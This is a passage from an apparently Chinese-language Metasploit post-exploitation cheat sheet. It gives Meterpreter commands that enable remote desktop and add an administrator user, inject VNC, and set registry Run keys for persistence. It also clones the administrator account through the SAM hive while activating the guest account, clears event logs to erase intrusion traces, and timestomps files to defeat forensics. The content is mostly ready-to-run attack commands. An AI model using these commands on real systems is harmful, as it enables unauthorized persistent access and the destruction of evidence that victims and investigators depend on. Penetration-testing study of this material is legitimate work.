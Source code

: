 **RDP**
```bash
run post/windows/manage/enable_rdp  # 开启 3389 远程桌面;
run post/windows/manage/enable_rdp username=xxx password=xxx    # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

**vnc**
```bash
run vnc                             # 分段注入VNC DLL
```

**注册表操作**

通过注册表设置开机自启动

```bash
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note -d 'C:\Windows\System32\notepad.exe'

reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note
```

通过注册表复制克隆用户

```bash
reg enumkey -k HKLM\\sam\\sam\\domains\\account\\users
shell
net user guest /active:yes
reg copy HkLM\sam\sam\domains\account\users\000001f4 HkLM\sam\sam\domains\account\users\000001f5
```

---

### 痕迹清除

```bash
clearev     # 入侵痕迹擦除
```

**反电子取证**

```bash
timestomp -v secist.txt                     # 查看当前目标文件 MACE 时间.
timestomp -f c:\\AVScanner.ini secist.txt   # 将模板文件 MACE 时间,复制给当前文件
timestomp -v secist.txt
```

---

## stage 和 stageless 的区别

> 以下部分内容来自 <sup>[探寻Metasploit Payload模式背后的秘密](https://www.freebuf.com/articles/system/187312.html)</sup>
